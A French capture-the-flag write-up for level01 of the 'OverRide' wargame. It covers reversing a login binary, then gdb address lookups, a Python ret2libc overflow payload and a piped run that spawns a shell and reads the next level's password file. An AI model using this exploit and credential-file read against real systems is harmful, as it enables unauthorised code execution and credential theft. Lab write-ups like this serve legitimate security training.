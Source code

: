 #### Etape 1 : Décompilation 

```bash
level01@OverRide:~$ ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: fsdfsdfsd
verifying username....

nope, incorrect username...

level01@OverRide:~$ ./level01 dssd sdsd
********* ADMIN LOGIN PROMPT *********
Enter Username: ds
verifying username....

nope, incorrect username...
```

Ce binaire ne prend aucun argument et demande un username.
Dans ce binaire il y a 3 fonctions : main(), verify_user_name() et verify_user_pass().
La fonction verify_user_name() vérifie si le username est égale a "dat_wil".
La fonction verify_user_pass() vérifie si le password est égale a "admin".
```bash
level01@OverRide:~$ ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password:
admin
nope, incorrect password...
```


#### Etape 2 : Recherche de faille

Le premier fgets recupere le username et apres on compare avec "dat_wil".
Le deuxieme fgets recupere le password et apres on compare avec "admin".
Mais qu'il soit correct ou non on a un message d'erreur.
```c
    if ((local_14 == 0) || (local_14 != 0)) {
      puts("nope, incorrect password...\n");
      uVar1 = 1;
    }
```
#### Etape 3 : Idée

L'idée est d'envoyer un shell dans le password pour qu'il s'éxécute.
Après avoir tenter d'ajouter un shellcode sans succès nous avons tentés de reproduire un ret2libc.
Celui ci nécessite d'appeler le pointeur de la fonction system, d'y ajouter ensuite un pointeur vers une fonction, c'est necessaire pour spécifier dans quel fonction retourner après l'appel a system. Pour finir ajouter une adresse qui correspond a la chaine de caractères que l'on souhaite éxécuter.

```bash
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
(gdb) p exit
$2 = {<text variable, no debug info>} 0xf7e5eb70 <exit>
(gdb) find __libc_start_main,+9999999,"/bin/sh"
0xf7f897ec
warning: Unable to access target memory at 0xf7fd3b74, halting search.
1 pattern found.
(gdb)
````
system : 0xf7e6aed0
exit : 0xf7e5eb70
/bin/sh : 0xf7f897ec

#### Etape 4 : Execution 

```bash
level01@OverRide:~$ python -c 'print "A" * 80 + "\xd0\xae\xe6\xf7" + "\x70\xeb\xe5\xf7" + "\xec\x97\xf8\xf7"+ "B"*20' > /tmp/hugo
level01@OverRide:~$ echo "dat_wil" > /tmp/test
level01@OverRide:~$ cat /tmp/test
dat_wil
level01@OverRide:~$ (cat /tmp/test ; cat /tmp/hugo -) | ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password:
nope, incorrect password...

whoami
level02
cat /home/users/level02/.pass
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv

```
